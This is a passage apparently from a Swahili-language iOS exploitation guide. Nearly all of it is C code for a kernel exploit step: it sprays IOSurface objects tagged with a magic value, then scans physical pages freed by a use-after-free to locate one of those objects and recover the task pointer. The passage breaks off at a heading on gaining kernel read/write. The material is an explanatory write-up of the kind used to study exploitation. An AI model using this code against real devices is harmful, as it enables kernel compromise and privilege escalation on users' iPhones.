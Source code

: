 Unda vitu vya IOSurface vyenye thamani ya kichawi IOSURFACE_MAGIC ili baadaye kutafuta:
```c
void spray_iosurface(io_connect_t client, int nSurfaces, io_connect_t **clients, int *nClients) {
if (*nClients >= 0x4000) return;
for (int i = 0; i < nSurfaces; i++) {
fast_create_args_t args;
lock_result_t result;

size_t size = IOSurfaceLockResultSize;
args.address = 0;
args.alloc_size = *nClients + 1;
args.pixel_format = IOSURFACE_MAGIC;

IOConnectCallMethod(client, 6, 0, 0, &args, 0x20, 0, 0, &result, &size);
io_connect_t id = result.surface_id;

(*clients)[*nClients] = id;
*nClients = (*nClients) += 1;
}
}
```
Tafuta **`IOSurface`** vitu katika ukurasa mmoja wa kimwili ulioachiliwa:
```c
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
int nSurfaceIDs = 0;

for (int i = 0; i < 0x400; i++) {
spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);

for (int j = 0; j < nPages; j++) {
uint64_t start = puafPages[j];
uint64_t stop = start + (pages(1) / 16);

for (uint64_t k = start; k < stop; k += 8) {
if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
info.object = k;
info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
if (self_task) *self_task = iosurface_get_receiver(k);
goto sprayDone;
}
}
}
}

sprayDone:
for (int i = 0; i < nSurfaceIDs; i++) {
if (surfaceIDs[i] == info.surface) continue;
iosurface_release(client, surfaceIDs[i]);
}
free(surfaceIDs);

return 0;
}
```
### Kufikia Kernel Read/Write na IOSurface
